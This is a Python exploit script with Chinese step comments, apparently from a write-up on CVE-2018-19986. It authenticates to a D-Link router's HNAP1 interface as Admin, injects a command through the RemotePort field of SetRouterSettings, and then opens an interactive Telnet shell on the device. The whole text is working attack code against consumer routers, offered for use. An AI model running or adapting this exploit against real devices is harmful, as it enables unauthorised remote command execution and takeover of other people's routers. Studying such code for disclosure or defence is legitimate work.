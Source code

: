 ```
#构造一个 action 为 request 的请求发送给 Login
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
data = r.text

#通过获取的 publickey 计算 privatekey，根据 privatekey 计算口令的 hmac(在上文中对应的是 hmac_1)
challenge = str(data[data.find("<Challenge>") + 11: data.find("</Challenge>")])
cookie = data[data.find("<Cookie>") + 8: data.find("</Cookie>")]
publicKey = str(data[data.find("<PublicKey>") + 11: data.find("</PublicKey>")])
privateKey = hmac_md5(publicKey + adminPw, challenge).hexdigest().upper()
password = hmac_md5(privateKey, challenge).hexdigest().upper()

#构造 action 为 login 的请求，发送用户名和口令
headers["HNAP_AUTH"] = HNAP_AUTH("Login", privateKey)
headers["Cookie"] = "uid=" + cookie
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>Admin</Username><LoginPassword>'+password+'</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)

#登录成功后访问 SetRouterSettings 设置路由器的一些配置，其中 RemotePort 被设置为 command
headers["Origin"] = "http://" + IP
headers["HNAP_AUTH"] = HNAP_AUTH("SetRouterSettings", privateKey)
headers["SOAPaction"] = '"http://purenetworks.com/HNAP1/SetRouterSettings"'
headers["Accept"] = "text/xml"

payload = open('{}.xml'.format("CVE-2018-19986")).read().replace('ip', IP).replace('COMMAND', command)
print '[*] command injection'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print(r.text)

print '[*] waiting 30 sec...'
time.sleep(30)

#利用成功之后，服务端已经开启了 Telnet 服务，攻击者可直接连服务器的 Telnet
print '[*] enjoy your shell'
telnetlib.Telnet(IP).interact() 
```

